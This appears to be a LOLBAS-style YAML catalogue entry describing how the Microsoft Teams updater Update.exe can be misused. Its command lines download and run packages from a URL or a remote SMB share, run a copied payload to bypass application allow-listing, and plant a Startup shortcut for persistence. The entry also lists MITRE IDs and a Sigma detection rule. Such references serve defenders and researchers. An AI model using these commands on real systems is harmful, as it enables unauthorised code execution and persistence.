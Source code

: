 ```yaml
---
Name: Update.exe
Description: Binary to update the existing installed Nuget/squirrel package. Part of Microsoft Teams installation.
Author: 'Oddvar Moe'
Created: 2019-06-26
Commands:
  - Command: Update.exe --download [url to package]
    Description: The above binary will go to url and look for RELEASES file and download the nuget package.
    Usecase: Download binary
    Category: Download
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: Update.exe --update=[url to package]
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package.
    Usecase: Download and execute binary
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
    Tags:
      - Execute: Nuget
      - Execute: Remote
  - Command: Update.exe --update=[url to package]
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package.
    Usecase: Download and execute binary
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
    Tags:
      - Execute: Nuget
      - Execute: Remote
  - Command: Update.exe --update=\\remoteserver\payloadFolder
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package via SAMBA.
    Usecase: Download and execute binary
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
    Tags:
      - Execute: Nuget
      - Execute: Remote
  - Command: Update.exe --update=\\remoteserver\payloadFolder
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package via SAMBA.
    Usecase: Download and execute binary
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
    Tags:
      - Execute: Nuget
      - Execute: Remote
  - Command: Update.exe --updateRollback=[url to package]
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package.
    Usecase: Download and execute binary
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
    Tags:
      - Execute: Nuget
      - Execute: Remote
  - Command: Update.exe --updateRollback=[url to package]
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package.
    Usecase: Download and execute binary
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
    Tags:
      - Execute: Nuget
      - Execute: Remote
  - Command: Update.exe --processStart payload.exe --process-start-args "whatever args"
    Description: Copy your payload into %userprofile%\AppData\Local\Microsoft\Teams\current\. Then run the command. Update.exe will execute the file you copied.
    Usecase: Application Whitelisting Bypass
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
    Tags:
      - Execute: Nuget
      - Execute: Remote
  - Command: Update.exe --updateRollback=\\remoteserver\payloadFolder
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package via SAMBA.
    Usecase: Download and execute binary
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
    Tags:
      - Execute: Nuget
      - Execute: Remote
  - Command: Update.exe --updateRollback=\\remoteserver\payloadFolder
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package via SAMBA.
    Usecase: Download and execute binary
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
    Tags:
      - Execute: Nuget
      - Execute: Remote
  - Command: Update.exe --processStart payload.exe --process-start-args "whatever args"
    Description: Copy your payload into %userprofile%\AppData\Local\Microsoft\Teams\current\. Then run the command. Update.exe will execute the file you copied.
    Usecase: Execute binary
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
    Tags:
      - Execute: EXE
  - Command: Update.exe --createShortcut=payload.exe -l=Startup
    Description: Copy your payload into "%localappdata%\Microsoft\Teams\current\". Then run the command. Update.exe will create a payload.exe shortcut in "%appdata%\Microsoft\Windows\Start Menu\Programs\Startup". Then payload will run on every login of the user who runs it.
    Usecase: Execute binary
    Category: Execute
    Privileges: User
    MitreID: T1547
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
    Tags:
      - Execute: EXE
  - Command: Update.exe --removeShortcut=payload.exe -l=Startup
    Description: Run the command to remove the shortcut created in the "%appdata%\Microsoft\Windows\Start Menu\Programs\Startup" directory you created with the LolBinExecution "--createShortcut" described on this page.
    Usecase: Execute binary
    Category: Execute
    Privileges: User
    MitreID: T1070
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
    Tags:
      - Execute: EXE
Full_Path:
  - Path: 'C:\Users\<username>\AppData\Local\Microsoft\Teams\update.exe'
Code_Sample:
  - Code: https://github.com/jreegun/POC-s/tree/master/nuget-squirrel
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/process_creation/proc_creation_win_lolbin_squirrel.yml
  - IOC: Update.exe spawned an unknown process
Resources:
  - Link: https://www.youtube.com/watch?v=rOP3hnkj7ls
  - Link: https://twitter.com/reegun21/status/1144182772623269889
  - Link: https://twitter.com/MrUn1k0d3r/status/1143928885211537408
  - Link: https://twitter.com/reegun21/status/1291005287034281990
  - Link: http://www.hexacorn.com/blog/2018/08/16/squirrel-as-a-lolbin/
  - Link: https://medium.com/@reegun/nuget-squirrel-uncontrolled-endpoints-leads-to-arbitrary-code-execution-80c9df51cf12
  - Link: https://medium.com/@reegun/update-nuget-squirrel-uncontrolled-endpoints-leads-to-arbitrary-code-execution-b55295144b56
  - Link: https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/microsoft-teams-updater-living-off-the-land/
Acknowledgement:
  - Person: Reegun Richard Jayapaul (SpiderLabs, Trustwave)
    Handle: '@reegun21'
  - Person: Mr.Un1k0d3r
    Handle: '@MrUn1k0d3r'
  - Person: Adam
    Handle: '@Hexacorn'
  - Person: Jesus Galvez
---
```

